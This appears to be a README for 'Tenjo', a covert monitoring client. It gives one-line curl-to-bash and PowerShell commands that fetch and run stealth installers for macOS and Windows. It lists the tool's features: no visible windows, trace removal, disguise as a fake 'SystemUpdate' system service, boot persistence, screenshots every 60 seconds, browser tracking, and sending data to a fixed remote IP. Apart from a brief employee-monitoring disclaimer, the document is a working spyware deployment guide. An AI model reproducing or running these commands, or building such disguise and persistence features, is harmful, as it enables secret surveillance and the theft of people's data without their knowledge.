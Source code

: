# Tenjo Stealth Installation Commands

## One-Line Remote Installation (Stealth Mode)

### macOS - Silent Installation (Recommended)
```bash
curl -sSL https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/quick_install_stealth_macos.sh | bash -s true
```

### macOS - Alternative Method (if above fails)
```bash
curl -sSL https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/install_stealth_macos.sh | bash -s true cleanup
```

### Windows - Silent Installation (Recommended)
```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/quick_install_stealth_windows.bat' -OutFile '%TEMP%\quick_install.bat' -UseBasicParsing; cmd /c '%TEMP%\quick_install.bat' true; del '%TEMP%\quick_install.bat'"
```

### Windows - Alternative Method (if above fails)
```cmd
powershell -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/Adi-Sumardi/Tenjo/master/client/install_stealth_windows.bat' -OutFile '%TEMP%\install_stealth.bat'; cmd /c '%TEMP%\install_stealth.bat' true cleanup; del '%TEMP%\install_stealth.bat'"
```

## Manual Installation (if needed)

### macOS
1. Download repository
2. Navigate to client directory
3. Run: `bash install_stealth_macos.sh true cleanup`

### Windows
1. Download repository
2. Navigate to client directory
3. Run: `install_stealth_windows.bat true cleanup`

## Uninstallation Commands

### macOS (Quick Install Method)
```bash
bash ~/.system_update/uninstall.sh
```

### macOS (Alternative Method)
```bash
bash ~/.system_update/uninstall_stealth_macos.sh true
```

### Windows (Quick Install Method)
```cmd
"%APPDATA%\SystemUpdate\uninstall.bat"
```

### Windows (Alternative Method)
```cmd
"%APPDATA%\SystemUpdate\uninstall_stealth_windows.bat" true
```

## Features

### ✅ Completely Silent Operation
- No user prompts or visible windows
- Runs hidden in background
- Auto-starts on boot/login
- No taskbar or system tray icons

### ✅ Stealth Installation
- Downloads and installs automatically
- Hides in system directories
- Removes installation traces
- Uses system service names

### ✅ Auto-Start Configuration
- **macOS**: LaunchAgent/LaunchDaemon
- **Windows**: Task Scheduler
- Starts automatically when computer boots
- Survives user logout/login

### ✅ Monitoring Capabilities
- 📸 Screenshots every 60 seconds
- 🌐 Browser activity tracking
- 💻 Process monitoring
- 📊 System statistics
- 📡 Data transmission to server

### ✅ Professional Disguise
- Service name: "SystemUpdate"
- Appears as legitimate system service
- Hidden from casual inspection
- Low resource usage

## Installation Locations

### macOS
- **User**: `~/.system_update/`
- **System**: `/Library/Application Support/SystemUpdate/`
- **Service**: `~/Library/LaunchAgents/com.system.update.agent.plist`

### Windows  
- **User**: `%APPDATA%\SystemUpdate\`
- **System**: `%PROGRAMDATA%\SystemUpdate\`
- **Service**: Task Scheduler `SystemUpdateService`

## Security Notes

⚠️ **This is monitoring software intended for legitimate employee monitoring purposes only**

- Only use on systems you own or have explicit permission to monitor
- Ensure compliance with local privacy laws
- Inform users of monitoring where legally required
- Use responsibly and ethically

## Technical Details

### Process Names
- **Main Process**: `stealth_main.py` / `python stealth_main.py`
- **Service Name**: `SystemUpdateService` / `com.system.update.agent`
- **Directory Name**: `SystemUpdate` / `.system_update`

### Network Communication
- Connects to: `http://103.129.149.67`
- Encrypted data transmission
- Automatic retry on connection failure
- Minimal bandwidth usage

### Logging
- Silent mode: Warnings and errors only
- Log location: `logs/stealth.log`
- Automatic log rotation
- No console output in stealth mode
